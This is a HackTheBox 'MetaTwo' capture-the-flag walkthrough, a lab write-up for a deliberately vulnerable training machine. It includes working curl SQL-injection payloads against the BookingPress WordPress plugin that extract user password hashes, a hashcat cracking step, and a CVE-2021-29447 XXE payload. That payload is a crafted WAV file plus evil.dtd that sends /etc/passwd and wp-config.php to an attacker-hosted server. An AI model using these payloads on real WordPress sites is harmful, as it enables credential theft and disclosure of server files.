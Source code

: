 ```yaml
---
title: MetaTwo
author: TDSSEC
date: 2023-02-26 00:34:00 +0800
categories: [HTB Machines, MetaTwo]
tags: [HTB]
image:
  path: /2023-02-26-MetaTwo/MetaTwo.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: MetaTwo HackTheBox
---
```

# MetaTwo
>- Easy Difficulty
- SQL Injection
 - XXE
 - File Enumeration

# Enumeration  
First lets add it to our hosts file:  
`echo "10.10.11.186 metapress.htb" >> /etc/hosts`

## nmap  
`nmap 10.10.11.186 -sV`  
![nmap](/2023-02-26-MetaTwo/nmap.png){: width="500" height="102"}

## Port 80
### WordPress  
`wpscan --url http://metapress.htb -e u,vt,vp`  
- WordPress theme twenty twentyone out of date.
- WordPress Version 5.6.2
- 2 usernames: admin, manager

### Bookingpress plugin  
There is a page called `events` which is using the bookingpress wordpress plugin.    
Looking at the source page, we can see the version number in use as well.  

`view-source:http://metapress.htb/events/`

# SQLi Exploit
We know the UNION SELECT offers 9 columns and the first 4 are known to allow strings in the responses from the original POC alone.

Modifying the payload, we can extract the data table from the current database:
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1e549e5167&category_id=33&total_service=-7502) UNION ALL SELECT 1,group_concat(table_name),3,4,5,6,7,8,9 from information_schema.tables where table_schema = database() -- -'
```

After researching WordPress database tables and columns to save time, I came up with the following payload:  
This takes the username and user password value from the `wp_users` table where the user `id=2` for the manager user.  
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1e549e5167&category_id=33&total_service=-7502) UNION ALL SELECT 1,wp_users.user_login,wp_users.user_pass,4,5,6,7,8,9 from wp_users WHERE wp_users.ID =2-- -'
```
> After comparing other walkthroughs since completing this machine, it was nice to see this approach differed from others that all seemed to use sqlmap and proxying traffic through burpsuite...

![sqli](/2023-02-26-MetaTwo/sql-query.png){: width="500" height="102"}

## Crack the hash
`echo '$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70' > hash.txt `  
`hashcat -m 400 -a 0 -o /root/cracked.text hash.txt /usr/share/wordlists/rockyou.txt`  
`cat /root/cracked.text`  

![hashcat](/2023-02-26-MetaTwo/cracked-hash.png){: width="500" height="102"}

# XXE Exploit
After you log into WordPress using the manager credentials we obtained, you can see the only feature that can be used is the media library. Attempts to upload various files failed (php reverse shell and extension changing).  

## Media Library
> WordPress versions 5.7, 5.6.2, 5.6.1, 5.6, 5.0.11 are affected to XML eXternal Entity vulnerability where an authenticated user with the ability to upload files in the Media Library can upload a malicious WAVE file that could lead to remote arbitrary file disclosure and server-side request forgery (SSRF).  

[CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)

### Host dtd file:  
Create and upload WAVE file.
`echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<IP>/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`

### Create evil.dtd file:  
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<IP>/?p=%file;'>" >
```

Change to your IP.  

#### Host a PHP webserver
`php -S 0.0.0.0:9123`

#### Leverage the XXE  
Upload the WAVE file to the media library and the response comes back base64 encoded.  

Copy the results and base64 decode them.

`echo "<base64 results>" | base64 -d`

![hashcat](/2023-02-26-MetaTwo/etc-passwd.png){: width="500" height="102"}

Lets change this to now get the `wp-config.php` file which contained the FTP credentials:
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<IP>/?p=%file;'>" >
```

# FTP
Authenticate with the credentials into the FTP server.  
`ftp open 10.10.11.186`

### SSH Credentials  
Looking at the files available, there is a send_email.php file that contains SSH credentials.  
` cat send_email.php`

# User Flag
## SSH
We can now login as the user `jnelson`.  
The flag is in the home directory and immediately accessible.  

# Root Flag
Performing an `ls- lha` to check for files, a file called `pass` was present.
![nmap](/2023-02-26-MetaTwo/pass-file.png){: width="500" height="102"}

Opening this, shows the root users password.

`su root` enter password and `cat /root/root.txt`

Completed!
